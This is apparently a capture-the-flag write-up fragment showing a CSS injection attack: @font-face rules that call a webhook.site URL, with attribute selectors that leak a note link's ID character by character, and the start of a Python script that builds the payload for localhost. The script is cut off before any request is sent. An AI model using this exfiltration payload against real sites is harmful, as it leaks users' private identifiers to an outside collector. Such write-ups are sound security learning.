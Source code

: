 ```js
router.get('/:noteId', async (req, res) => {
  const { noteId } = req.params;
  try {
    const note = await Note.findById(noteId);
    if (!note) {
      return res.status(404).json({ message: 'Note not found' });
    }
      
...
```

This is an example how I leak href link of a tag :

```css
@font-face{
    font-family:winkya;
    src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/a');
}
@font-face{
    font-family:winkyb;
    src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/b');
}
@font-face{
    font-family:winkyc;
    src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/c');
}
...
a[href^='/api/notes/a']{
    font-family: winkya;
}
a[href^='/api/notes/b']{
    font-family: winkyb;
}
a[href^='/api/notes/c']{
    font-family: winkyc;
}
...
```

And this is my final solve script

```python
import string
import requests
import secrets
import json

URL = "http://localhost:8000/"

ch = string.digits + string.ascii_lowercase + '-'

payload = ""
# id = "71e455ef-10b7-435d-90a1-9d5a352fbed3"
id = ""
for i in ch:
    t1 = f"""@font-face{{font-family:winky{i};src:url('https://webhook.site/b1465a0c-ae75-431f-9d2d-353e5fd552e5/{i}');}}"""
    payload += t1
    
for i in ch:
    t2 = f"""a[href^='/api/notes/{id + i}']{{font-family: winky{i};}}"""
    payload += t2

username = secrets.token_hex(20)
password = secrets.token_hex(20)
```